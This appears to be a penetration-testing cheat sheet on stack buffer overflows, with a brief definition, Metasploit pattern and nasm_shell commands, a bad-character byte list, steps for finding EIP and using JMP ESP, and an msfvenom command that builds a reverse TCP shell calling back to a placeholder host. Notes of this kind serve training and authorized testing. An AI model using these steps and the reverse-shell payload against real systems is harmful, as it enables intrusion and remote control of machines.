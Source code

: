 # **Buffer Overflow** #

## **What is Buffer Overflow?** ##
A buffer overflow occurs when a program attempts to store more data in a buffer, or temporary storage area, than it was designed to hold. This can lead to the excess data overwriting adjacent memory locations, potentially causing the program to behave unpredictably, crash, or even allow attackers to execute malicious code. It's a common security vulnerability that can be exploited by attackers to gain unauthorized access to a system or escalate their privileges.

## **Payload** ##

payload = "\x41" \* + + "\x90" \* 16 + + "\x43" \*


## **Pattern create** ##

/usr/share/metasploit-framework/tools/exploit/pattern\_create.rb -l


## **Pattern offset** ##

/usr/share/metasploit-framework/tools/exploit/pattern\_offset.rb -l -q


## **nasm** ##

/usr/share/metasploit-framework/tools/exploit/nasm\_shell.rb

nasm > jmp eax


## **Bad characters** ##

badchars = (

"\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10"

"\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20"

"\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30"

"\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"

"\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50"

"\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60"

"\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70"

"\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80"

"\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90"

"\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0"

"\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0"

"\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0"

"\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0"

"\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0"

"\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0"

"\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff" )



## **Buffer Overflow** ##

Determine length of overflow trigger w/ binary search "A"x1000

Determine exact EIP with pattern\_create.rb & pattern\_offset.rb

Determine badchars to make sure all of your payload is getting through

Develop exploit

Is the payload right at ESP

JMP ESP

Is the payload before ESP

sub ESP, 200 and then JMP ESP

or

call \[ESP-200]

msfvenom -a x86 --platform windows/linux -p something/shell/reverse\_tcp lhost=x.x.x.x lport=53 -f exe/elf/python/perl/php -o filename

Make sure it fits your payload length above

Gain shell, local priv esc or rooted already?

